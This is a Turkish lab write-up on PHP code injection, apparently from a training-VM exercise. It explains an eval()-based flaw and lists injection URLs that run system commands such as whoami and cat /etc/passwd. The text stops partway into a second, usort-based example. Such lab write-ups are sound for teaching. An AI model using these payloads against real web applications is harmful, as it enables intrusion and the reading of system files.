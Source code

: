 #### Example 1

Burada **http://192.168.56.101/codeexec/example1.php?name=hacker** **name** gibi bir parametreye değer göderiyoruz ve değer ekrana yazdırılıyor. Buraya **php** kodlarımızı yazarsak yorumlanıp çalıştırırlacaktır. ` http://192.168.56.101/codeexec/example1.php?name=hacker"; $var = "VULNERABLE"; echo $var; //` Buradaki **// PHP** de yorum satırı anlamına geliyor. Kaynak kodda şu şekilde bir satır olduğunu düşünürsek.

```php
<?php
$str="echo \"Hello ".$_GET['name']."!!!\";";
eval($str);
?>
```

Girilen değere **Hello ve !!!** ekliyor ve eval fonksiyonu ile ekrana bastırıyor. `hacker"; $var = "VULNERABLE"; echo $var; //` şeklinde bir ifade verdiğimizde kaynak kod şu şekle dönecek.

```php
<?php
$str="echo \"Hello "."hacker"; $var = "VULNERABLE"; echo $var; //"."!!!\";";
eval($str);
?>
```

**//** koyduğumuz için **!!!** işaretleri yorum satırına dönüşecek ve ünlem işaretlerini çıktıda göremeyeceğiz. Sistemde çeşitli komutlar çalıştıtılabilir.

> http://192.168.56.101/codeexec/example1.php?name=hacker"; system("whoami"); //
>
> http://192.168.56.101/codeexec/example1.php?name=hacker"; system("pwd"); //
>
> http://192.168.56.101/codeexec/example1.php?name=hacker"; system("ls"); //
>
> http://192.168.56.101/codeexec/example1.php?name=hacker"; system("cat /etc/passwd"); //
>
> http://192.168.56.101/codeexec/example1.php?name=hacker"; system("cat /etc/shells"); //
>
> http://192.168.56.101/codeexec/example1.php?name=hacker"; system("cat /etc/hosts"); //
>
> http://192.168.56.101/codeexec/example1.php?name=hacker"; system("cat /etc/services"); //
>
> http://192.168.56.101/codeexec/example1.php?name=hacker"; system("ls /home"); //

Gibi bir çok komut çalıştırılabilir.

#### Example 2

**http://192.168.56.101/codeexec/example2.php?order=name"; echo "VULNERABLE"; //** Şeklinde bir sorgu denediğimizde **PHP** bize bir hata döndürüyor hata mesajında ise runtime-created function on line 1 Warning: usort() expects parameter 2 to be a valid callback, no array or string given in /var/www/codeexec/example2.php on line 22 diyor burada PHP de usort fonksiyonunun kullanıldığını öğreniyoruz.
`https://www.w3schools.com/php/func_array_usort.asp - usort kullanımı.`

Kaynak kod aşağıdaki gibi
